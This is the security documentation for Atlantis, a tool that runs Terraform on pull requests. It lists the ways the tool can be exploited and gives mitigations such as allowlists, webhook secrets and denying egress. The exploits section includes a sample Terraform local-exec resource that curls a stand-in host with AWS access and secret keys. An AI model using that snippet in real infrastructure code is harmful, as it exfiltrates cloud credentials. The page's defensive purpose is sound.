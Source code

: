 # Security
[[toc]]
## Exploits
Because you usually run Atlantis on a server with credentials that allow access to your infrastructure it's important that you deploy Atlantis securely.

Atlantis could be exploited by
* An attacker submitting a pull request that contains a malicious Terraform file that
  uses a malicious provider or an [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
  that Atlantis then runs `terraform plan` on (which it does automatically unless you've turned off automatic plans).
* Running `terraform apply` on a malicious Terraform file with [local-exec](https://developer.hashicorp.com/terraform/language/resources/provisioners/local-exec)
    ```tf
    resource "null_resource" "null" {
      provisioner "local-exec" {
        command = "curl https://cred-stealer.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
      }
    }
    ```
* Running malicious custom build commands specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** `main`.
* Someone adding `atlantis plan/apply` comments on your valid pull requests causing terraform to run when you don't want it to.

## Mitigations
### Don't Use On Public Repos
Because anyone can comment on public pull requests, even with all the security mitigations available, it's still dangerous to run Atlantis on public repos without proper configuration of the security settings.

### Don't Use `--allow-fork-prs`
If you're running on a public repo (which isn't recommended, see above) you shouldn't set `--allow-fork-prs` (defaults to false)
because anyone can open up a pull request from their fork to your repo.

### `--repo-allowlist`
Atlantis requires you to specify a allowlist of repositories it will accept webhooks from via the `--repo-allowlist` flag.
For example:
* Specific repositories: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Your whole organization: `--repo-allowlist=github.com/runatlantis/*`
* Every repository in your GitHub Enterprise install: `--repo-allowlist=github.yourcompany.com/*`
* You can also omit specific repos: `--repo-allowlist='github.com/runatlantis/*,!github.com/runatlantis/untrusted-repo'`
* All repositories: `--repo-allowlist=*`. Useful for when you're in a protected network but dangerous without also setting a webhook secret.

This flag ensures your Atlantis install isn't being used with repositories you don't control. See `atlantis server --help` for more details.

### Protect Terraform Planning
If attackers submitting pull requests with malicious Terraform code is in your threat model
then you must be aware that `terraform apply` approvals are not enough. It is possible
to run malicious code in a `terraform plan` using the [`external` data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source)
or by specifying a malicious provider. This code could then exfiltrate your credentials.

To prevent this, you could:
1. Bake providers into the Atlantis image or host and deny egress in production.
1. Implement the provider registry protocol internally and deny public egress, that way you control who has write access to the registry.
1. Modify your [server-side repo configuration](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan` step to validate against the
   use of disallowed providers or data sources or PRs from not allowed users. You could also add in extra validation at this point, e.g.
   requiring a "thumbs-up" on the PR before allowing the `plan` to continue. Conftest could be of use here.

### `--var-file-allowlist`
The files on your Atlantis install may be accessible as [variable definition files](https://developer.hashicorp.com/terraform/language/values/variables#variable-definitions-tfvars-files)
from pull requests by adding  
`atlantis plan -- -var-file=/path/to/file` comments. To mitigate this security risk, Atlantis has limited such access
only to the files allowlisted by the `--var-file-allowlist` flag. If this argument is not provided, it defaults to
Atlantis' data directory.

### Webhook Secrets
Atlantis should be run with Webhook secrets set via the `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` environment variables.
Even with the `--repo-allowlist` flag set, without a webhook secret, attackers could make requests to Atlantis posing as a repository that is allowlisted.
Webhook secrets ensure that the webhook requests are actually coming from your VCS provider (GitHub or GitLab).

:::tip Tip
If you are using Azure DevOps, instead of webhook secrets add a [basic username and password](#azure devops basic authentication)
:::

### Azure DevOps Basic Authentication
Azure DevOps supports sending a basic authentication header in all webhook events. This requires using an HTTPS URL for your webhook location.

### SSL/HTTPS
If you're using webhook secrets but your traffic is over HTTP then the webhook secrets
could be stolen. Enable SSL/HTTPS using the `--ssl-cert-file` and `--ssl-key-file`
flags.

### Enable Authentication on Atlantis Web Server
It is very recommended to enable authentication in the web service. Enable BasicAuth using the `--web-basic-auth=true` and setup a username and a password using `--web-username=yourUsername` and `--web-password=yourPassword` flags.

You can also pass these as environment variables `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` and `ATLANTIS_WEB_PASSWORD=yourPassword`. 

:::tip Tip
We do encourage the usage of complex passwords in order to prevent basic bruteforcing attacks.
:::
